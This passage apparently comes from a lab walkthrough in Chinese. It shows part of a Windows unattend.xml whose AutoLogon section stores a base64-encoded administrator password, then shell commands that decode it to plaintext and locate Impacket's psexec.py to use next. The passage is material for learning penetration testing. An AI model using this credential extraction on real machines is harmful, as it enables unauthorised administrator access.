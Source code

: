 ```
                <Description>AMD CCC Setup</Description>
                <CommandLine>%AppsRoot%:\BootCamp\Drivers\ATI\ATIGraphics\Bin64\ATISetup.exe -Install</CommandLine>
                <Order>1</Order>
                <RequiresUserInput>false</RequiresUserInput>
              </SynchronousCommand>
              <SynchronousCommand wcm:action="add">
                  <Description>BootCamp setup</Description>
                  <CommandLine>%AppsRoot%:\BootCamp\setup.exe</CommandLine>
                  <Order>2</Order>
                  <RequiresUserInput>false</RequiresUserInput>
              </SynchronousCommand>
            </FirstLogonCommands>
            <AutoLogon>
                <Password>
                    <Value>QWRtaW5AMTIz</Value>
                    <PlainText>false</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <Username>administrator</Username>
            </AutoLogon>
        </component>
    </settings>
</unattend>

```


```
root@attackdefense:~# echo "QWRtaW5AMTIz" > password.txt
root@attackdefense:~# base64 -d password.txt 
Admin@123
```

得到以下用户名和密码：

```
administrator
Admin@123
```

```
root@attackdefense:~# find / -name psexec.py
find: '/proc/tty/driver': Permission denied
find: '/proc/213/map_files': Permission denied
find: '/proc/435/map_files': Permission denied
find: '/proc/437/map_files': Permission denied
find: '/proc/438/map_files': Permission denied
find: '/proc/439/map_files': Permission denied
find: '/proc/440/map_files': Permission denied
find: '/proc/441/map_files': Permission denied
find: '/proc/442/map_files': Permission denied
find: '/proc/465/map_files': Permission denied
find: '/proc/470/map_files': Permission denied
find: '/proc/529/map_files': Permission denied
find: '/proc/530/map_files': Permission denied
/usr/local/bin/psexec.py
/usr/share/doc/python3-impacket/examples/psexec.py
/usr/share/set/src/fasttrack/psexec.py
/opt/impacket/examples/psexec.py
```
